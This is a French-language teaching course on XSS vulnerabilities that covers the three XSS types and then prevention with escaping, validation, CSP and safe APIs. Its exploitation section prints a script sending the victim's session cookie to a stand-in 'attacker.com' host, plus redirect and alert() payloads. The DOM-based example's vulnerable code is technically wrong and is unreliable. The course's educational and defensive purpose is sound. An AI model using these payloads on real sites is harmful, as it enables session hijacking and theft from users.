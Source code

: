 ### **Cours : Les failles XSS (Cross-Site Scripting)**

#### **Objectifs du cours :**
1. Comprendre ce qu'est une faille XSS et pourquoi elle représente une menace.
2. Découvrir les différents types de failles XSS.
3. Apprendre comment ces failles sont exploitées par les attaquants.
4. Explorer les meilleures pratiques pour prévenir les failles XSS.

---

### **1. Qu'est-ce que le XSS (Cross-Site Scripting) ?**

Le **Cross-Site Scripting (XSS)** est une vulnérabilité de sécurité très courante dans les applications web. Elle se produit lorsque des attaquants injectent du contenu malveillant (généralement du code JavaScript) dans des pages web consultées par d'autres utilisateurs. Si l'application web n'assainit pas correctement les données saisies par l'utilisateur, un attaquant peut exploiter cette faille pour manipuler le comportement de la page.

Le XSS permet à un attaquant d'exécuter des scripts malveillants dans le navigateur de la victime, ce qui peut conduire à des actions comme :
- **Vol de cookies** : Ce qui permet à un attaquant de prendre le contrôle d'une session.
- **Détournement de l'interface utilisateur** : Injection de contenu trompeur ou malveillant dans la page web.
- **Redirection vers des sites malveillants**.
- **Déclenchement d'actions malveillantes** sur le site en étant authentifié avec les droits de la victime.

---

### **2. Les différents types de XSS**

Il existe trois types principaux de failles XSS :

#### **2.1. XSS Réfléchi (Reflected XSS)**
- Dans les attaques XSS réfléchies, les données malveillantes sont renvoyées immédiatement par l'application web dans la réponse HTTP. Cela signifie que la charge utile malveillante (le script) est injectée via une requête HTTP (souvent dans les paramètres de l'URL ou des formulaires) et est directement exécutée dans le navigateur de la victime.
  
**Exemple :**
```http
http://victim-site.com/search?query=<script>alert('XSS')</script>
```
Dans cet exemple, si l'application retourne directement la valeur de `query` sans la filtrer correctement, le navigateur exécutera le code JavaScript malveillant.

#### **2.2. XSS Stocké (Stored XSS)**
- Le XSS stocké est l'un des types les plus dangereux de XSS, car la charge utile malveillante est **stockée dans la base de données** de l'application et exécutée chaque fois qu'un utilisateur affiche les données malveillantes. Cela peut arriver dans les sections de commentaires, les forums ou d'autres zones où des utilisateurs peuvent soumettre du contenu.
  
**Exemple :**
Un attaquant soumet un commentaire malveillant sur un site :
```html
<script>alert('XSS')</script>
```
Ce commentaire est ensuite affiché à tous les utilisateurs, et le script est exécuté chaque fois que quelqu'un consulte cette page.

#### **2.3. XSS basé sur le DOM (DOM-based XSS)**
- Les failles **DOM-based XSS** exploitent directement le **Document Object Model (DOM)** du navigateur. Ici, l'attaque se produit lorsque le JavaScript côté client manipule les entrées de manière incorrecte, et l'exécution du script malveillant se fait entièrement dans le navigateur sans impliquer directement le serveur web.
  
**Exemple :**
Si un site utilise un code JavaScript comme celui-ci :
```javascript
document.location = 'Bienvenue, ' + document.location.search;
```
Un attaquant pourrait manipuler l'URL comme suit :
```http
http://victim-site.com/welcome?<script>alert('XSS')</script>
```
Si le code JavaScript côté client n'est pas correctement échappé, le script sera exécuté dans le navigateur.

---

### **3. Exemples d'exploitation de failles XSS**

#### **3.1. Vol de cookies (session hijacking)**
Un attaquant peut voler le cookie de session d'un utilisateur via une faille XSS. Ce cookie peut ensuite être utilisé pour usurper l'identité de l'utilisateur.

**Exemple :**
```javascript
<script>
  var img = new Image();
  img.src = "http://attacker.com/steal_cookie.php?cookie=" + document.cookie;
</script>
```
Ici, le script envoie le cookie de session de la victime à l'attaquant via une requête HTTP.

#### **3.2. Redirection vers un site malveillant**
Un attaquant peut rediriger les utilisateurs vers un site malveillant en utilisant une vulnérabilité XSS.

**Exemple :**
```javascript
<script>window.location = 'http://attacker-site.com';</script>
```
Ce code redirige la victime vers un site contrôlé par l'attaquant, où elle peut être exposée à d'autres attaques.

---

### **4. Comment se protéger contre les failles XSS**

#### **4.1. Échapper les données utilisateur**
Assurez-vous de bien **échapper** toutes les données saisies par l'utilisateur avant de les inclure dans les réponses HTML. Cela signifie que chaque caractère potentiellement dangereux (comme `<`, `>`, `&`) doit être converti en une entité HTML inoffensive (comme `&lt;`, `&gt;`, `&amp;`).

#### **4.2. Validation des entrées utilisateur**
Validez et filtrez les entrées utilisateur dès que possible. Ne faites confiance à aucune donnée provenant de l'utilisateur sans la vérifier. Utilisez des **listes blanches** pour limiter les types de données acceptés (par exemple, limiter les entrées aux caractères alphanumériques uniquement pour certains champs).

#### **4.3. Content Security Policy (CSP)**
Le **CSP** est une en-tête HTTP qui permet aux développeurs de spécifier quelles ressources sont autorisées à être chargées et exécutées par le navigateur. En mettant en place une politique CSP restrictive, vous pouvez empêcher l'exécution de scripts malveillants provenant de sources non autorisées.

**Exemple d'en-tête CSP :**
```http
Content-Security-Policy: script-src 'self'; object-src 'none';
```
Cette règle autorise uniquement l'exécution de scripts provenant du même domaine (`self`) et interdit les objets externes.

#### **4.4. Utiliser des frameworks avec protection contre le XSS**
La plupart des frameworks modernes comme **React**, **Angular** ou **Django** disposent de protections intégrées contre les attaques XSS en échappant automatiquement les entrées utilisateur dans le DOM. Utiliser ces frameworks réduit le risque de XSS lorsqu'ils sont utilisés correctement.

#### **4.5. Sécuriser les API JavaScript**
Certaines fonctions JavaScript, comme `eval()` ou `innerHTML`, peuvent exécuter des scripts malveillants. Évitez d'utiliser ces fonctions dangereuses et préférez des alternatives plus sûres, comme `textContent` ou `setAttribute`.

---

### **5. Exercice pratique avec DVWA**
(Dans ce cours, on pourrait introduire des exercices pratiques basés sur DVWA, mais sans les détailler ici.)

---

### **6. Conclusion**

Le XSS est une vulnérabilité courante, mais extrêmement dangereuse, qui peut permettre à des attaquants d'exécuter des actions malveillantes dans le contexte du navigateur de la victime. La bonne nouvelle est que la plupart des attaques XSS peuvent être évitées en suivant quelques bonnes pratiques simples :
- Toujours valider et échapper les données d'entrée et de sortie.
- Utiliser des en-têtes de sécurité comme CSP.
- S'appuyer sur des frameworks qui offrent des protections intégrées.

La sécurité des applications web repose sur une gestion rigoureuse des entrées utilisateur et la mise en place de mécanismes de défense à plusieurs niveaux.

---

### **Ressources supplémentaires :**
- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Prevention_Cheat_Sheet.html)
- [Mozilla Developer Network (MDN) – Cross-Site Scripting (XSS)](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting)
- [PortSwigger – What is Cross-site Scripting (XSS)?](https://portswigger.net/web-security/cross-site-scripting)
